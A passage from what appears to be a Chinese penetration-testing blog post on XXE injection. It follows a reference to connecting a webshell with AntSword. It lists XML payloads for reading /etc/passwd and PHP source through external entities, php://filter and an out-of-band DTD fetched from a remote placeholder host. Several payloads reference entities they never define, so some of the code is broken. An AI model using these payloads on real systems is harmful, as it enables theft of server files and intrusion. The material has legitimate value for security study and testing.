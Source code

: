     最后，借助蚁剑连接即可。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714181321.png)

 **    0X04 ** **引入外部实体 dtd命令**

    使用如下类似Payload获取系统敏感文件

  *   *   *   *   *   *   *   *   *   * 

    
    
    <?xml version="1.0" ?><!DOCTYPE test [    <!ENTITY % file SYSTEM "http://127.0.0.1:8080/xml.dtd">    %file;]><x>&xxe;</x>  
    xml.dtd:<!ENTITY send SYSTEM "file:///etc/passwd">  
    

 **    0X05 ** **无回显–读取文件**

    直接使用如下类似Payload获取敏感信息

  *   *   *   *   *   *   * 

    
    
    <?xml version="1.0"?><!DOCTYPE test [    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">    <!ENTITY % dtd SYSTEM "http://远程:8081/test.dtd">    %dtd;    %xxe;]>

 **    0X06 ** **协议-读文件（绕过）**

    直接使用如下类似Payload获取敏感信息

  *   *   * 

    
    
    <?xml version = "1.0"?>    <!DOCTYPE ANY [ <!ENTITY f SYSTEM "php://filter/read=convert.base64-encode/resource=xxe.php"> ]><x>&xxe;</x>

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714181322.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714181323.png)![]()![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714181324.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714181317.png)

如果喜欢，敬请关注哦，后期更精彩！

![]()![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714181326.png)
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714181327.png)

往 期 推 荐 ·值 得 细 看

[

2023全网最优渗透研学靶场汇总（上）

2023-02-23

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714181328.png)
](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247487135&idx=1&sn=c9b74b1fb501a3909fff462ca4ec1a4e&chksm=c0ca3c88f7bdb59e524544c1f0b8c3079956352417940311e7ac8f30a09b1ad7fb9c6a59da9f&scene=21#wechat_redirect)[
